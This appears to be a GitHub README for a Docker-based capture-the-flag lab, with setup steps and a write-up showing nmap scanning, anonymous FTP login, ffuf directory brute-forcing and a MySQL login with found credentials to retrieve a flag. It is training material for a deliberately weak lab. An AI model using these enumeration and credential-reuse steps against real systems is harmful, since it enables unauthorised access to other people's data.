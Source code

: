 # CTF Challenge by Veiron Vaya Yarief 

# Table of Contents
- [CTF Challenge by Veiron Vaya Yarief](#ctf-challenge-by-veiron-vaya-yarief)
- [Table of Contents](#table-of-contents)
  - [1. How to try](#1-how-to-try)
  - [2. About Program](#2-about-program)
    - [2.1. Configuration](#21-configuration)
    - [2.1.1. Ftp](#211-ftp)
      - [Dockerfile](#dockerfile)
      - [vsftpd.conf](#vsftpdconf)
    - [2.1.2. Http](#212-http)
      - [Dockerfile](#dockerfile-1)
    - [2.1.3. MySql](#213-mysql)
      - [init.sql](#initsql)
    - [2.2. Write-Up/Solution](#22-write-upsolution)
    - [2.3. Privilege Escalation](#23-privilege-escalation)


## 1. How to try
- Install VirtualBox and Setup kali-linux: https://linuxsimply.com/linux-basics/os-installation/virtual-machine/kali-linux-on-virtualbox/
![alt text](assets/readme1.png)
- If the machine dont have docker and docker compose install it first https://www.kali.org/docs/containers/installing-docker-on-kali/
- In ur desire directory run command `git clone https://github.com/VeironVaya/Vei_CTF.git`
- After that run command `cd Vei_CTF`
![alt text](assets/readme2.png)  
- Run command `docker compose build`
![alt text](assets/readme3.png)  
- After it successfully built, run command `docker compose up`
![alt text](assets/readme4.png)
- Check if the containers running using command `docker ps`
![alt text](assets/readme5.png)
- 💻🔓 Happy HACKINGGGGGGGGG!!! 💻⚡
- 👉 Try to enumerate what is runninggg... 🚀👀


## 2. About Program

### 2.1. Configuration

### 2.1.1. Ftp
#### Dockerfile
#### vsftpd.conf

### 2.1.2. Http
#### Dockerfile

### 2.1.3. MySql
#### init.sql

### 2.2. Write-Up/Solution
- Disclaimer: change all the target ip to ur vm target ip
- Check vm ip: run command `ip a`
- General Enumeration: run command `nmap -p- 192.168.1.11` or ur vm ip
![alt text](assets/wu1.png)
- As we can see there are three services and we will try to get information on each one
- Try anonymous login for ftp and find interesting files by following this steps
- Run command `ftp 192.168.1.11` 
- Enter **anonymous**
- Run command `ls` to see what files inside
- Run command `get user.txt`
- Run command `bye` to exit the ftp
- Run command `cat user.txt` here we get some user password that maybe usefull
![alt text](assets/wu2.png)
- Try finding hidden directory in http
![alt text](assets/wu3.png)
- Run command `echo -e "docker-compose.yaml\n.ftp\n.http\n.mysql\n.prefix.txt\n.readme.md\n.user.txt\n.hidden" > prefix.txt` to make all possible list of directory to bruteforced finding hidden directory
- Run command `ffuf -u http://192.168.1.11/FUZZ -w prefix.txt -mc 200,301,302,403 -t 40`
![alt text](assets/wu4.png)
- As we can see there is a hidden directory `/.hidden`. Now we try enumerate what file could be in this directory
- Run command `echo -e "flag.txt\nflag\nsecret.txt\npass.txt\npassword.txt\nindex.html\nbackup.zip\nreadme.md\n.htaccess\n.htpasswd" > ctf.txt` to make all possible list of files 
- Run command `ffuf -u http://192.168.1.11/.hidden/FUZZ -w ctf.txt -mc 200,301,302,403`
![alt text](assets/wu5.png)
- As we can see there is a file `pass.txt`
- With this information we can check the website by going to `http://192.168.1.11/.hidden/pass.txt`
![alt text](assets/wu6.png)
- Now with these 2 done we can try mySql service
- Run command `mysql -h 192.168.1.11 -P 3306 -u dausmini -p --skip-ssl`, we get user from the ftp steps
- Enter the `passnyadausmini` in password
- Run command `SHOW DATABASES;` to show what databases are there
- Run command `USE ctfdb;` to use the database that seems suspicious
- Run command `SHOW TABLES;` to show what data table are in the database
- Run command `SELECT * FROM flag;` to get data inside the flag table
![alt text](assets/wu7.png)
![alt text](assets/wu8.png)
- And we get our flag
- Below is bonus documentation on simulation 2 VM
![alt text](assets/wu9.png)
### 2.3. Privilege Escalation

